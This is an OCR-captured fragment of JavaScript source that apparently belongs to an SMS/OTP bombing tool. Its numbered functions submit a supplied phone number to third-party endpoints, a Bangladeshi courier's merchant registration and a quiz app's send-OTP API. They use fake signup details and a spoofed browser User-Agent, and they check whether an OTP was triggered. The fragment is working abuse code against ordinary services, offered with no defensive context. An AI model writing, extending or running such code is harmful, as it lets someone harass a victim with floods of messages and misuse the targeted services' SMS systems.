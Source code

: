         const result = await response.json();

      
        if (result.otpsent === 'false' || result.status === 'failed') {
            throw new Error(`API 7 Failure: ${result.error || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 7 Error:', error);
        throw error;
    }
}

async function api_8(phone) {
 const data = {
 full_name: "Hangama",
 company_name: "Hangama",
 email_address: "hangama@gmail.com",
 phone_number: phone
 };
    try {
        const response = await fetch('https://go-app.paperfly.com.bd/merchant/api/react/registration/request_registration.php', {
            method: 'POST',
            headers: {
            'Content-Type': 'application/json',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0',
            },
            body: JSON.stringify(data)
        });

        const result = await response.json();

      
        if (result.otpsent === 'false' || result.status === 'failed') {
            throw new Error(`API 8 Failure: ${result.error || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 8 Error:', error);
        throw error;
    }
}

async function api_9(phone) {
    const url = "https://developer.quizgiri.xyz/api/v2.0/send-otp";
    

    try {
        const response = await fetch(url, {
            method: 'POST',
            headers: {
            'Content-Type': 'application/json',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0'
            },
            body: JSON.stringify({
            country_code: "+880",
            phone: phone
            })
        });
